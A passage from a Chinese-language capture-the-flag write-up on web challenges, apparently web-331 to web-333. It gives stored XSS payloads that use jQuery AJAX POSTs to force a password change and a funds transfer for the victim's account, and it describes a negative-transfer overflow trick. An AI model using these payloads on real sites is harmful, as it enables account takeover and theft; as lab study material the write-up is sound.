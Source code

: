我们发现发送形式变成POST了，于是对应的payload也变成post形式

<script>
$.ajax(
	{
		url:'api/change.php',
		type:'post',
		data:{
			p:'123456'
		}
	}
)
</script>

通过f12发现可以修改，于是格式化了一下，得到

```
<script>$.ajax({url:'api/change.php',type:'post',data:{p:'123456'}})</script>

```

![image-20250428194212653](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281942690.png)



### web-332

这次多出了个汇款功能，我们先注册一个账号

然后转账负数的金额

![image-20250428194535357](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281945387.png)

就会发现负的太多，余额溢出了变为了正数，然后就能买flag了



### web-333

管理员访问用户管理，用注册的用户名执行js代码给另一个账户转账，所以需要注册两个用户名

转账逻辑：

![image-20250428194736988](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281947021.png)

同样可以通过测试写一个转账逻辑：

```
<script>
$.ajax(
	{
		url:'api/amount.php',
		type:'post',
		data:{
			u:'123',
			a:'5'
		}
	}
)
</script>

```
